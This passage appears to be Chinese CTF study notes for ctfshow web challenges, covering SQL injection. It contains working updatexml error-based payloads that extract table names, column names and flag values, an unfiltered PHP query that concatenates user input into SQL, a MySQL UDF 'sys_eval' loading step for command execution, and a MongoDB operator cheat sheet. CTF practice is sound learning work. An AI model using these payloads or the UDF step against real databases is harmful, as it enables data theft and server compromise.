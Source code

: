 eg:`1' and updatexml(1,concat(0x7c,(select group_concat(table_name) from information_schema.tables where table_schema=database())),1) %23`
`1' and updatexml(1,concat(0x7c,(select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagsa')),1) %23`
`1' and updatexml(1,concat(0x7c,(select flag1 from ctfshow_flagsa)),1) %23`
`1' and updatexml(1,concat(0x7c,mid((select flag from ctfshow_flag),30,30)),1) %23`

#### 双查询注入

（偷来的）

额，和floor报错注入有什么区别

### uaf注入

```php
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
//无过滤,

```

mysql的UAF注入,简单来说就是把dll文件写到目标机子的plugin目录，这个目录是可以通过select @@plugin_dir来得到的。

`CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.so'; //导入udf函数`

web248

### nosql

```php
$gt : >
$lt : <
$gte: >=
$lte: <=
$ne : !=、<>
$in : in
$nin: not in
$all: all 
$or:or
$not: 反匹配(1.3.3及以上版本)
模糊查询用正则式：db.customer.find({'name': {'$regex':'.*s.*'} })
/**
* : 范围查询 { "age" : { "$gte" : 2 , "$lte" : 21}}
* : $ne { "age" : { "$ne" : 23}}
* : $lt { "age" : { "$lt" : 23}}
*/

//查询age = 22的记录
db.userInfo.find({"age": 22});
//相当于：select * from userInfo where age = 22;
//查询age > 22的记录
db.userInfo.find({age: {$gt: 22}});
//相当于：select * from userInfo where age > 22;
```
